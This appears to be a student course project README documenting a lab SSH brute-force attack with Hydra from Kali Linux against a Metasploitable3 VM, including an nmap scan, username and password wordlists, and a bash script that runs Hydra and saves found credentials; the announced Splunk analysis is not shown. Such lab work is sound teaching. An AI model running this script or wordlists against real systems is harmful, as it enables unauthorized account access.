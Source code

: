 
# ICS344 Project: SSH Brute Force Attack and Splunk SIEM Analysis

This project demonstrates a simulated SSH brute-force attack using Hydra from a Kali Linux machine against a vulnerable Metasploitable3 VM. In **Phase 1**, we set up the environment and executed the attack. In **Phase 2**, we analyzed the attack using Splunk as a Security Information and Event Management (SIEM) tool.

---

## Phase 1: SSH Brute Force via Script Method

### 1. Environment Setup

We set up the following machines in VirtualBox:

- **Kali Linux** (Attacker)
- **Metasploitable3** (Victim)

#### Virtual Network Configuration

Both machines were configured with:

- Adapter 1: NAT (for internet access)
- Adapter 2: Host-Only Adapter (for internal communication between VMs)

---

### 2. Check VM Communication

We confirmed the network connectivity between the attacker and victim machines.

- On **Kali Linux**, we ran:

```bash
ifconfig
```

- On **Metasploitable3**, we ran:

```bash
ifconfig
```

![Attacker and Victim IPs](screanshots/1.png)

- Kali Linux IP: `192.168.56.107`
- Metasploitable3 IP: `192.168.56.106`

We then ensured they could communicate with each other using `ping`.

---

### 3. Discover Open Ports on the Victim

From Kali Linux, we scanned the victim machine:

```bash
sudo nmap -sS -sV 192.168.56.106
```

![Nmap scan results showing open ports](screanshots/3.png)

Discovered services:
- FTP (21)
- SSH (22)
- HTTP (80)
- MySQL (3306)
- Jetty (8080)
- and others...

---

### 4. Prepare Brute Force Files

We created a directory for the brute-force attack:

```bash
mkdir ssh-brute
cd ssh-brute
```

**users.txt**:
```
pgsql
admin
root
user
vagrant
aisha
test
```

**pass.txt**:
```
nginx
password
123456
toor
vagrant
aishapass
testpass
```

**script.sh**:
```bash
#!/bin/bash

TARGET_IP="192.168.56.106"
TARGET_PORT=22
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"
OUTPUT_FILE="valid_credentials.txt"

if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

Make the script executable:

```bash
chmod +x script.sh
```

---

## Summary

| Role       | Machine            | IP Address       | Description                             |
|------------|--------------------|------------------|-----------------------------------------|
| Attacker   | Kali Linux         | 192.168.56.107   | Launches SSH brute-force attack         |
| Victim     | Metasploitable3    | 192.168.56.106   | Target of attack                        |

---

## Screenshots Folder

```
screenshots/
├── 1.png       # IP info of both VMs
├── 3.png       # Nmap scan results
```

---

## References

- [Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)
- ICS344 Lab Guide
